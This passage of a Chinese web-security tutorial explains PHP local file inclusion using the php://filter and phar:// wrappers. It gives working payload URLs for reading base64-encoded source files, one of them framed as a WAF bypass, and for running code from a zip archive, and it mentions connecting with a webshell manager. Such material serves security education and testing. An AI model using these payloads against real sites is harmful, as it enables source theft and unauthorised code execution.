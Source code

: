 用shell管理工具，比如蚁剑等便能成功连接。

### php://filter

元封装器，设计用于"数据流打开"时的"筛选过滤"应用，对本地磁盘文件进行读写。

利用条件：

1. 对allow\_url\_include不做要求。
2. 对allow\_url\_fopen不做要求。

姿势：

```php
fileinclude.php?file=php://filter/read=convert.B ase64-encode/resource=index.php

另外一种：fileinclude.php?file=php://filter/convert.B ase64-encode/resource=index.php
//效果跟前面的一样，少了read等关键字。在绕过一些waf时也许有用。
```

通过指定末尾的文件，可以读取经B ase64加密后的文件源码，之后再B ase64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3b30b16efba1efdb22ea38a30762f6623befc85f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3b30b16efba1efdb22ea38a30762f6623befc85f.png)

其中`PD9waHAKZWNobyAiSGVsbG8gV29ybGQiOwo/Pg==`B ase64解码出来为如下，刚好是我同目录下的index.php的文件源码：

```php
<?php
echo "Hello World";
?>
```

### phar://

这个就是php解压缩包的一个伪协议，不管后缀是什么，都会当做压缩包来解压。

利用条件：

1. php版本大于等于php5.3.0
2. 对allow\_url\_include不做要求。
3. 对allow\_url\_fopen不做要求。

姿势：

写一个文件phpinfo.php，其内容为`<?php phpinfo(); ?>`，打包成zip压缩文件格式的压缩包，如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a2d09ab684ab2b601de53edfa5aca2e604144abe.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a2d09ab684ab2b601de53edfa5aca2e604144abe.png)

指定绝对路径:

```php
fileinclude.php?file=phar://D:/phpStudy/PHPTutorial/WWW/test.zip/phpinfo.php
```

或者使用相对路径（这里`test.zip`就在当前目录下，和`fileinclude.php`同一目录）:
